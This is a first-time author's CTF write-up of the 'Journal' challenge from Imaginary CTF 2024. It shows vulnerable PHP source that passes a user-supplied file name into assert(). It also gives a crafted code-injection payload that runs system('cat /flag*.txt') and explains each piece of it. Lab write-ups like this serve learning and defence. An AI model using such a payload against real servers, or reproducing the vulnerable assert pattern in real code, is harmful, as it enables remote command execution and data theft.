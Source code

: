 ```yaml
---
title: Journal - Imaginary CTF 2024
---
```



*This is my first writeup regarding a ctf challenge.*

# PHP Source Code

This was the source code of the php server. I do not know php so I could not see the obvious vulnerability.


```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

I intially tried accessing the flag without using `..`. On hacktricks I found a few ways that could happend but none of them worked.

# The RCE

Then it clicked to me, how assert is taking the code as a string and executing it and the file name is being passed to it.
Googling this, I found that hacktricks has [the same code as example](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) but their payload was not working for me. So I crafted my own payload.

```php
', '1') or die(system('cat /flag*.txt'))or strpos('
```

# Break Down

- `', '1')` is to close the string and strpos function.
- `or die(system('cat /flag*.txt'))` is to print the flag. `or` is used because `strpos` returns false and then `or` short circuits to execute the next command `die`.
- `or strpos('` is to prevent the (syntax iirc) error from being thrown by.

After the format string being filled the code inside the `assert` function looks like this:

```php
strpos('', '1') or die(system('cat /flag*.txt'))or strpos('e', '..') === false
```

**Thanks to the organizers. I really enjoyed the ctf, especially this challenge.**


